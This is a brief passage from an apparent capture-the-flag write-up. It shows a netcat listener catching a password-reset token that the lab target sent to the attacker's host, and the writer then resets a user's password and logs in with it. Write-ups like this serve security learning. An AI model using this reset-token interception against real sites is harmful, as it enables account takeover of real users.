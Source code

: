 In that case i will need a nc listener ready to intercept the query and try to reset the password of the user we found earlier. 

![reset-passwd.png](/Assets/Pictures/Forgot/reset-passwd.png)

Here is the token we got

```bash
➜  sudo nc -nlvp 80
[sudo] password for d0n: 
Listening on 0.0.0.0 80
Connection received on 10.10.11.188 55928
GET /reset?token=<your-token> HTTP/1.1
Host: 10.10.14.115
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

Once the cookie stolen, we can reset the password and log in with the new password

home page
